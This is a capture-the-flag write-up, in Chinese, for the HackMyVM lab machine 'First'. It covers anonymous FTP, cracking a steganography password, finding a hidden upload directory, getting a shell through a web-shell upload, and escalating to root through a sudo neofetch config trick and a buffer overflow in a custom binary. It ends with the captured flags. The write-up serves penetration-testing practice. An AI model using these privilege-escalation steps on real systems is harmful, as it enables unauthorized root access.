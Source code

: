 # First

2025.03.24 https://hackmyvm.eu/machines/machine.php?vm=First

[video](https://www.bilibili.com/video/BV1Ldo2Y3Eij/?spm_id_from=333.1387.collection.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

ftp 匿名登陆 first 中 first_Logo.jpg ， stegseek 爆破得到隐写密码: firstgurl1 ，解压后得到隐写文本：

```
SGkgSSBoYWQgdG8gY2hhbmdlIHRoZSBuYW1lIG9mIHRoZSB0b2RvIGxpc3QgYmVjb3VzZSBkaXJlY3RvcnkgYnVzdGluZyBpcyB0b28gZWFzeSB0aGVlc2UgZGF5cyBhbHNvIEkgZW5jb2RlZCB0aGlzIGluIGJlc2E2NCBiZWNvdXNlIGl0IGlzIGNvb2wgYnR3IHlvdXIgdG9kbyBsaXN0IGlzIDogMmYgNzQgMzAgNjQgMzAgNWYgNmMgMzEgNzMgNzQgNWYgNjYgMzAgNzIgNWYgNjYgMzEgNzIgMzUgNzQgZG8gaXQgcXVpY2sgd2UgYXJlIHZ1bG5hcmFibGUgZG8gdGhlIGZpcnN0IGZpcnN0IA==
```

```
Hi I had to change the name of the todo list becouse directory busting is too easy theese days also I encoded this in besa64 becouse it is cool btw your todo list is : 2f 74 30 64 30 5f 6c 31 73 74 5f 66 30 72 5f 66 31 72 35 74 do it quick we are vulnarable do the first first
```

hex 转换后 /t0d0_l1st_f0r_f1r5t 再次 web 目录扫描，发现http://192.168.5.40/t0d0_l1st_f0r_f1r5t/upload.php 上传文件存储在 http://192.168.5.40/t0d0_l1st_f0r_f1r5t/uploads/

上传一个 web shell，访问后得到反弹的 shell，先拿到了 user flag：

```
www-data@first:/home/first$ cat user.txt
3120a57478d631a5ef82ef5d96146389
```

sudo -l 显示 (first : first) NOPASSWD: /bin/neofetch

```
TF=$(mktemp); echo 'exec /bin/bash' > $TF; chmod +rx $TF
sudo -u first neofetch --config $TF
```

sudo -l 显示 (ALL) NOPASSWD: /bin/secret 是一个用户后添加文件，对其进行逆向。发现会出现缓冲区溢出漏洞，只要输入的字符超过 10 个就可以绕过 pass 限制。

绕过后，可以执行命令，直接 /bin/bash 拿到了 root 权限，得到 root flag:

```
root@first:~# cat r00t.txt
477d9a6aa33e3818ced1ad3015b53b43
```
